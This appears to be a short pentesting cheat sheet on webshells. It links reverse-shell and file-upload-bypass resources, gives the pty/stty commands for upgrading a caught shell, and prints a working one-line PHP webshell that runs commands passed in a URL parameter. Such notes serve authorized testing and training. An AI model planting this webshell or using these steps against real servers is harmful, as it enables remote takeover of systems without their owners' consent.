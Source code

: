 ## Intro
Who doesn't like the RCE on demand?

List webshells available on Kali
```
tree /usr/share/webshells/
```

## Revshells
Great reverse shell generator

https://www.revshells.com/

**PHP PentestMonkey** works great!

## File Upload bypass
If website blocks upload of your webshell, try this

https://book.hacktricks.xyz/pentesting-web/file-upload

## Upgrade shell
When shell works, but does not support all features
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
<CTRL+Z>
stty -echo raw
fg
stty rows 41 columns 166
```

## Apache
Basic PHP webshell
```
# Take input from the URL paramter. e.g http://<IP>/shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>
```
